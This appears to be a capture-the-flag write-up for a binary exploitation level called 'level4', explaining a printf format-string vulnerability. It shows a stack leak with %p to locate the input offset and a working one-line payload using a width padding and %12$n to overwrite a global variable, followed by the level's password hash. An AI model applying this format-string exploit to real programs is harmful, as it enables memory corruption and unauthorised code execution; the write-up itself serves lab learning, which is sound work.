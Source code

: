 # level 4

There is a call to printf, when calling p() in n().
It compares the variable m to 16930116 (0x1025544), we can use the %n exploit like in level3.

Let's find in which position does our argv[1] variable address starts.

    $ ./level4 
    aaaabbbbcccc %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
    aaaabbbbcccc 0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520

The variable argv[1] is in the 12th position. 
We can't write 16930116 characters, so we use the width parameter of printf.

input:
4 - bytes address of m
16930112 - bytes padding

    (python -c 'print ("\x10\x98\x04\x08" + "%16930112c" + "%12$n")') | ./level4
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a